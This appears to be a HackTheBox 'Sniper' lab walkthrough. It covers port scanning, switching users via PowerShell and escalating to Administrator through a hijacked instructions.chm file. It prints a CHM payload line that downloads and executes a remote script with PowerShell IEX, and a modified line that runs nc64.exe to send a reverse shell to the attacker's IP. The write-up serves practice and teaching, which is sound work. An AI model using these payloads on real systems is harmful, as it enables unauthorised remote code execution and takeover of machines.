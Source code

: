 ``` $ nmap -vvv -p1-65535 -oN pall.txt 10.10.10.151 ```

https://davidhamann.de/2019/12/08/running-command-different-user-powershell/

and I changed some elements:

![12-userflagonly](https://user-images.githubusercontent.com/62805453/85050988-72530980-b186-11ea-8638-bea9d47a3585.png)

Then with getting some helps from a friend I wrote a command to switch to “Chris” account via powershell:

![11-whoami](https://user-images.githubusercontent.com/62805453/85052414-6405ed00-b188-11ea-861c-fd456fd0c0a6.png)

After looking at some directories I found a file named “instructions.chm”, so I downloaded it into my Kali Linux machine via netcat, and open the file with kchmviewer tool:

![15-kchmviewer](https://user-images.githubusercontent.com/62805453/85051007-78e18100-b186-11ea-9872-5f24d99acd3e.png)

Then I downloaded the htmlhelp.exe file from microsoft website and installed it on windows machine: ( you can install it on your Kali machine using wine tool )

https://www.microsoft.com/en-us/download/details.aspx?id=21138

But I really didn’t know how to deal with instructions.chm file as it was my first experience to work with such an extension. So I searched on the internet and found this useful post and followed every steps:

https://github.com/yasinyilmaz/vuln-chm-hijack

I just changed this code:

``` <PARAM name="Item1" value=",powershell.exe, -nop -NoProfile -WindowsStyle 1 -c -IEX (New-Object Net.WebClient).DownloadString('{YOUR MALICIOUS FILE URL}')"> ```

TO:

``` <PARAM name="Item1" value=",cmd,/C C:\TEMP\nc64.exe -e powershell.exe 10.10.16.30 55400"> ```

By defining CMD in the code we are able to run any program we want, in this case nc64.exe.

At the end I compiled the file the way that the post shows and send it to my Kali machine and run the SimpleHTTPServer:

``` $ python -m SimpleHTTPServer 59800 ```

Then download instructions.chm in Sniper machine. (You can use your windows machine for doing all steps, just use Openvpn to connect to HackTheBox servers).

** Notice that the file that you compiled should have the same name as the original one: instructions.chm

In this moment you need to copy the file into “C:\Docs” directory, but before that run your netcat with your IPaddress and a port number. After running netcat and copying instructions.chm file in the Docs directory you get a reverse shell as the Administrator of the Sniper machine:

![16-root](https://user-images.githubusercontent.com/62805453/85051014-7b43db00-b186-11ea-88e9-3bbf572998d1.png)
